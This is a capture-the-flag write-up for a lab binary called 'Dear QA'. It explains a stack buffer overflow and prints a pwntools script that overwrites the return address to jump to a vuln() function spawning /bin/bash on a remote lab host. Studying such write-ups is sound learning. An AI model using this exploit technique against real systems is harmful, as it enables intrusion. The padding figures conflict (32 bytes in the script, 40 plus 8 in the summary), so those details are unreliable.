




# Dear QA

## 1. Summary
- Purpose of analysis: To identify whether the DearQA binary contains a memory corruption vulnerability and determine if it can be exploited to gain a reverse shell through an open port.

- What the binary appears to do: It prints a welcome message, asks for the user’s name, and then echoes it back.

- Final conclusion: The binary contains a classic stack‑based buffer overflow due to an unsafe iso_scanf call, allowing control of RIP and therefore redirection to the vuln() function to gain access to a reverse shell by the vuln() function calling /bin/bash.

---

## 2. Basic Info
- File type: ELF 64‑bit LSB executable

- Architecture: x86_64

- Stripped: No

---

## 3. Static Analysis
- I first ran the file command on the binary to see the architecture and what type the file was.

- I then just ran the actual file which prints a hello message, asks for the user name then echoes it back.


- After I also ran the ```checksec``` command allowing me to see if the binary was vulnerable to anything.


- We can see that there are no stack canaries which are used to detect a stack buffer overflow before execution of malicious code can occur

- The binary also has no PIE, which means they have fixed memory adresses making it easier to exploit.

- I tested the buffer overflow protection by inputting a large amount of characters which you can see below leads to a segmentation fault.


- I then opened up the file in ghidra to try and find any intresting patterns or information and went straight to the main() function.


- I saw that it stored information at rbp -0x20 so I then took note of that for later.



- I went to see all of the different functions and saw a vuln() function.



- I noted how there was a secret message and that it called /bin/bash which would call the reverse shell for me so I knew this is the function i would have to exploit.



- Noteable Imports: iso_scanf, printf
- Notable functions: Main, Vuln
- Suspicious Patterns: Use of iso_scanf("%s", buffer) with no length restriction
Stack variable at offset -0x28 (40 bytes)
No stack canaries
No PIE (static addresses → easier exploitation)

---

## 4. Exploit
- I now had to make a payload to give to the program to recieve the reverse shell however I did have to have some help with this one as I was stuck on what to do, however I will try my best to explain it.
- This is the script I used below.

```

from pwn import *

context.binary = binary = "./DearQA-1627223337406.DearQA"
static = ELF(binary)

vuln_address = p64(static.symbols.vuln)

payload = b"A"*0x20 + b"B"*0x8 + vuln_address

p = remote("10.129.146.251", 5700)
p.recvuntil(b"name:")
p.sendline(payload)
p.interactive()

```
- Line 1 imports everything from the pwntools library

- line 2 gives the context of the file to 'binary'

- Line 3 loads the binary into an ELF object allowing you to find addresses, functions and more.

- As vuln() is the function we want to exploit we use ```static.symbols.vuln``` to find the address and p64 converts it into 8 bytes so we can write the address correctly to overwrite the RIP.

- Line 5 is the main part of the payload and we use this to overflow the binary to get where we want. I used 'A' and 'B' as padding in the exploit to send. I sent A 0x20 times which is 32 bytes as that is the exact amount I need to reach RBP. The RIP is 8 bytes above RBP so I send 8 bytes to get up to the RIP then overwrite the value of that with the vuln() address to redirect the main function back to the vuln function allowing it to call our reverse shell.

- Line 6 specifies the ip and port the try hack me room gave me.

- Line 7 waits to send the payload until after 'name:'

- Line 8 then sends the payload and line 9 open up our interactive session.

- I run the exploit with the interpreter and the reverse shell worked!
- I then list the contents and cat the flag.txt file, therefore revealing the flag.



---

## 5. Core Logic
### Key algorithm

- The binary simply:

    - Prints welcome text

    - Reads user input into a 40‑byte buffer

    - Prints the input back

- Because iso_scanf does not enforce a limit, then I can write past:

    - the buffer

    - saved RBP

    - saved RIP

- Important variables

    - local_28 → 40‑byte stack buffer

    - Saved RBP → 8 bytes

    - Saved RIP → 8 bytes

---

## 6. Result
- What the binary actually does:
    - It is a simple input‑echo program with a critical buffer overflow vulnerability.
- Exploit summary

    - Overflow offset to RIP: 48 bytes

    - Payload structure:
        ```"A"*40 + "B"*8 + <address of vuln()>```
        - Redirecting RIP to vuln() triggers the hidden function and completes the challenge.


---

## 7. Notes
- Issues encountered:
    - I at first struggled with the concept of RIP and RBP but eventually got the idea.
    - Actually writing the exploit and understanding it was a big challenge
- Things to revisit
    - Learning assembly and C code more in depth
    - Different binary exploits
- Lessons learned
    - Learning how to recognise different parts of memory and function
    - A basic understanding of the pwntools library.
    - RIP overwrite requires passing RBP first
